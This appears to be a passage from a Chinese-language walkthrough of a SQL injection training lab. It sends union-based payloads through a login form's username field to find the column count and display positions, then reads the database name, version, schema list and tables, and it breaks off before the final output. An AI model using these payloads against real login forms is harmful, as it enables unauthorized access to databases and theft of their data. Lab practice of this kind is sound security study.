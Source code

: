 测试成功

## 猜字段数

```php
uname=admin' order by 2 #&passwd=125
```

2 个字段

## 查显示位

注意查显示位的时候，通过加符号等，使得前面的查询无果。

```php
uname=-admin' union select 1,2 #&passwd=125
```

回显：

> Your Login name:1
> Your Password:2

两个显示位都有

## 数据库版本,数据库名

```php
uname=-admin' union select database(),version() #&passwd=125
```

回显：

> Your Login name:security
> Your Password:5.5.53

## 所有数据库

```php
uname=-admin' union select 1,group_concat(schema_name) from information_schema.schemata #&passwd=125
```

回显：

> Your Password:information_schema,challenges,mysql,performance_schema,security,webug,webug_sys,webug_width_byte

## 当前数据库下的表

```php
uname=-admin' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security' #&passwd=125
```

回显：
